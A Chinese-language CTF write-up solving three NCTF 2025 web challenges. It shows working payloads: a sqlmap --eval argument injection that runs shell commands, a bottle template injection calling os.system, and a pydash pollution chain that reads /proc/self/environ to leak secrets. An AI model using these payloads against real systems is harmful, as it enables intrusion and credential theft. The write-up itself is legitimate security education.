








+++
date = '2025-03-24T00:27:55+08:00'
title = 'NCTF-2025-Web-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++


### sqlmap-master

题目

```python
from fastapi import FastAPI, Request
from fastapi.responses import FileResponse, StreamingResponse
import subprocess

app = FastAPI()

@app.get("/")
async def index():
    return FileResponse("index.html")

@app.post("/run")
async def run(request: Request):
    data = await request.json()
    url = data.get("url")
    
    if not url:
        return {"error": "URL is required"}
    
    command = f'sqlmap -u {url} --batch --flush-session'

    def generate():
        process = subprocess.Popen(
            command.split(),
            stdout=subprocess.PIPE,
            stderr=subprocess.STDOUT,
            shell=False
        )
        
        while True:
            output = process.stdout.readline()
            if output == '' and process.poll() is not None:
                break
            if output:
                yield output
    
    return StreamingResponse(generate(), media_type="text/plain")
```

其实就是一个网页端的sqlmap

看一下sqlmap的使用文档



可以通过--eval执行python代码，而且有回显

payload

```
127.0.0.1 --eval=print(__import__("os").popen("env").read())
```


### ez_dash

题目

```python
'''
Hints: Flag在环境变量中
'''


from typing import Optional


import pydash
import bottle


__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","func","render",
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if path.find("{")>=0 or path.find("}")>=0 or path.find(".")>=0:
        return "Hacker"
    return bottle.template(path)
bottle.run(host='0.0.0.0', port=8000)
```

非预期

bottle的ssti不一定需要{}

payload

```
<h>
 %import os;os.system('whoami')
 %end
</h>
```


### ez_dash_revenge

题目

```python
'''
Hints: Flag在环境变量中
'''


from typing import Optional


import pydash
import bottle


__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","render"
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if len(path)>10:
        return "hacker"
    blacklist=["{","}",".","%","<",">","_"] 
    for c in path:
        if c in blacklist:
            return "hacker"
    return bottle.template(path)
bottle.run(host='0.0.0.0', port=8000)
```

rev修复了非预期

那就是打pydash污染

首先想着先把\_\_forbidden_name\_\_污染掉

```
?name=setval

{
"path":"__globals__.__forbidden_name__",
"value":""
}
```



发现no

本地调试一下

可以看到在高版本的pydash中会对path进行检查



如果path中存在\_\_globals\_\_，\__builtins__则会返回异常



我们需要先把RESTRICTED_KEYS给污染掉



```
?name=pydash

{
"path":"helpers.RESTRICTED_KEYS",
"value":""
}
```



现在就可以污染\_\_forbidden_name\_\_了



污染掉\_\_forbidden_name\_\_之后，我们可以通过对bottle的模板路径进行污染从而实现在render路由进行任意文件读取，因为这题的flag在环境变量中，所以我们直接将TEMPLATE_PATH污染为**/proc/self**



```
?name=bottle

{
"path":"TEMPLATE_PATH",
"value":["/proc/self/"]
}
```

接着在/render读环境变量

```
?path=environ
```

拿到flag